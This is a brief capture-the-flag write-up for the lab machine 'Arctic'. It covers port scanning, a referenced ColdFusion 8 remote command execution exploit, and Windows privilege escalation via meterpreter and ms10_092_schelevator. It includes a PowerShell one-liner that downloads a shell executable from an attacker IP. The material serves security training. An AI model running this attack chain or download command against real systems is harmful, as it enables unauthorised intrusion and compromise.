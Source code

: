 # Arctic Write-Up

Easy

Tags:
`Easy`
`External`
`CMS`
`Penetration Tester Level 1`
`Unrestricted File Upload`
`A06:2021-Vulnerable And Outdated Components`
`Windows Vulnerabilities`
`Misconfiguration`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

## Exploitation

Directory traversal => http://10.10.10.11/cfide/administrator/index.html => search `coldfusion 8 exploit` => [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)

## Privilege Escalation

windows command line download file

```shell
 powershell "(new-object System.Net.WebClient).Downloadfile('http://<attacker -ip>/shell.exe', 'writeup.exe')"
```

=> meterpreter session => use local_exploit_suggester => ms10_092_schelevator
